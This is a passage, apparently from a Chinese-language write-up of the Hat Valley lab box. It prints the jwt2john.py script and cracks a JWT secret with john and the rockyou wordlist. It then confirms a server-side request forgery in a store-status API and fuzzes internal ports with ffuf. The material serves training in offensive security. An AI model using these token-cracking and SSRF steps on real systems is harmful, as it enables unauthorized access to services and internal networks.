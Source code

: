 用脚本把这个JWT token转换成john格式，然后用john工具破解

https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py

  

  * 

    
    
    > python3 jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY3MDE3MTU3fQ.M5Yx5hMqtxf3hxrIJSjdLSdubkP6gFPtGzwsDDr7voI > jwt_hash

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/env python3import sysfrom jwt.utils import base64url_decodefrom binascii import hexlify  
      
    def jwt2john(jwt):    """    Convert signature from base64 to hex, and separate it from the data by a #    so that John can parse it.    """    jwt_bytes = jwt.encode('ascii')    parts = jwt_bytes.split(b'.')  
        data = parts[0] + b'.' + parts[1]    signature = hexlify(base64url_decode(parts[2]))  
        return (data + b'#' + signature).decode('ascii')  
      
    if __name__ == "__main__":    if len(sys.argv) != 2:        print("Usage: %s JWT" % sys.argv[0])    else:        john = jwt2john(sys.argv[1])        print(john)

  * 

    
    
    > john -w=/usr/share/wordlists/rockyou.txt jwt_hash

  

![](https://gitee.com/fuli009/images/raw/master/public/20230307193059.png)

获取到JWT token的secret值为`123beany123`，用`JWT Debugger`尝试，暂时没发现什么

## SSRF

想起刚才发现的另一个API，api/store-status?url="http://store.hat-valley.htb"，可能存在SSRF

尝试http://127.0.0.1:80，被重定向到http://store.hat-valley.htb，证实存在SSRF

  

  * 

    
    
    http://hat-valley.htb/api/store-status?url="http://127.0.0.1:80"-->http://store.hat-valley.htb

  * 

    
    
    ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"' -fs 0

  

![](https://gitee.com/fuli009/images/raw/master/public/20230307193100.png)
